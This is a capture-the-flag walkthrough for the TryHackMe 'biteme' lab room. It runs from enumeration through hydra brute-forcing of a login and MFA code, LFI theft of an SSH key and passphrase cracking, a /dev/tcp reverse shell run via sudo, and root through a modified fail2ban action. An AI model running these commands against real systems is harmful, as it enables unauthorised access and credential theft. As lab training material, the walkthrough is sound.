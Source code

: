 # biteme

**Room Link:** [https://tryhackme.com/room/biteme](https://tryhackme.com/room/biteme)

## Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (748).png" alt=""><figcaption></figcaption></figure>

## Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (749).png" alt=""><figcaption></figcaption></figure>

## TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```



<figure><img src="../../.gitbook/assets/image (753).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (752).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (750).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (751).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
gobuster dir -u http://$VICTIM/console -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x phps
```

<figure><img src="../../.gitbook/assets/image (754).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (757).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (755).png" alt=""><figcaption></figcaption></figure>

## **Finding username**

**Kali**

```
echo 6a61736f6e5f746573745f6163636f756e74 | xxd -r -p
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Recreating login

I merged configs.phps,  functions.php and index.phps into a index.php file. Made some modifications so that it could run  when hosted locally without the mfa part of the code so then I can try to bruteforce the credentials.

**index.php**

```
 <?php
session_start();
$showError = false;
define('LOGIN_USER', '6a61736f6e5f746573745f6163636f756e74'); 

function is_valid_user($user) {
    $user = bin2hex($user);
    return $user === LOGIN_USER;
}
// @fred let's talk about ways to make this more secure but still flexible
function is_valid_pwd($pwd) {
    $hash = md5($pwd);
    return substr($hash, -3) === '001';
} 


if (isset($_POST['user']) && isset($_POST['pwd'])) {
        if (is_valid_user($_POST['user']) && is_valid_pwd($_POST['pwd'])) {
            setcookie('user', $_POST['user'], 0, '/');
            setcookie('pwd', $_POST['pwd'], 0, '/');
            header('Location: mfa.php');
            exit();
        } else {
            $showError = true;
        }
  }  
?>

<!doctype html>
<html lang="en">
 <body class="text-center">
    <form action="index.php" method="post" class="form-signin" >
        <h1 class="h3 mb-3 font-weight-normal">Please sign in</h1>
        <input type="text" name="user" class="form-control" placeholder="Username" required>
        <input type="password" name="pwd" class="form-control" placeholder="Password" required>
        <button class="btn btn-lg btn-primary btn-block" type="submit">Sign in</button>
        <?php if ($showError): ?><p class="mt-3 mb-3 text-danger">Incorrect details</p><?php endif ?>
    </form>
  </body>
</html>

```

**Kali**

```
echo MFA > mfa.php
php -S 127.0.0.1:81
```

<figure><img src="../../.gitbook/assets/image (20) (1).png" alt=""><figcaption></figcaption></figure>

## Bruteforce

**Kali**

```
hydra -l jason_test_account -P /usr/share/wordlists/rockyou.txt 127.0.0.1 -s 81 http-post-form "/index.php:user=^USER^&pwd=^PASS^:F=Incorrect details"
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



**Browser**

```
Username: jason_test_account
Password: violet
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
python -c "with open('output.txt', 'w') as file: [file.write(f'{str(i).zfill(4)}\n') for i in range(10000)]"
```

**Kali**

```
git clone https://github.com/vanhauser-thc/thc-hydra.git
cd thc-hydra/
./configure
make
make install
cd ..

thc-hydra/hydra -l jason_test_account -P output.txt $VICTIM http-post-form "/console/mfa.php:code=^PASS^:H=Cookie: PHPSESSID=hshqcs3n42r9qjs5b2850r9alt; user=jason_test_account; pwd=violet:F=Incorrect code" -T 64
```



<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (758).png" alt=""><figcaption></figcaption></figure>

## LFI

<figure><img src="../../.gitbook/assets/image (759).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
chmod 600
/opt/john/ssh2john.py id_rsa > id_john.txt
john --wordlist=/usr/share/wordlists/rockyou.txt id_john.txt 
```

<figure><img src="../../.gitbook/assets/image (760).png" alt=""><figcaption></figcaption></figure>

## TCP/22 - SSH

**Kali**

```
ssh -i id_rsa jason@$VICTIM 
Password: 1a2b3c4d
```

<figure><img src="../../.gitbook/assets/image (761).png" alt=""><figcaption></figcaption></figure>



## Lateral Movement

**Victim**

```
sudo -l
```

<figure><img src="../../.gitbook/assets/image (762).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
echo '#!/bin/bash' > shell.sh
echo 'sh -i >& /dev/tcp/$KALI/1337 0>&1' >> shell.sh
```

**Kali**

```
nc -lvnp 1338
```

**Victim**

```
sudo -u fred ./shell.sh
```

<figure><img src="../../.gitbook/assets/image (763).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```

## Privilege Escalation&#x20;

**Victim**

```
sudo -l
```

<figure><img src="../../.gitbook/assets/image (764).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
cat /etc/fail2ban/jail.conf
```

<figure><img src="../../.gitbook/assets/image (768).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
ls -la /etc/fail2ban/action.d/iptables-multiport.conf
vi /etc/fail2ban/action.d/iptables-multiport.conf
```

<figure><img src="../../.gitbook/assets/image (765).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (770).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
sudo /bin/systemctl restart fail2ban
```

Now we need to enter bad passwords until we've triggerd the ban action

**Kali**

```
ssh root@$VICTIM
```

<figure><img src="../../.gitbook/assets/image (769).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
/bin/bash -p
whoami
```

<figure><img src="../../.gitbook/assets/image (771).png" alt=""><figcaption></figcaption></figure>

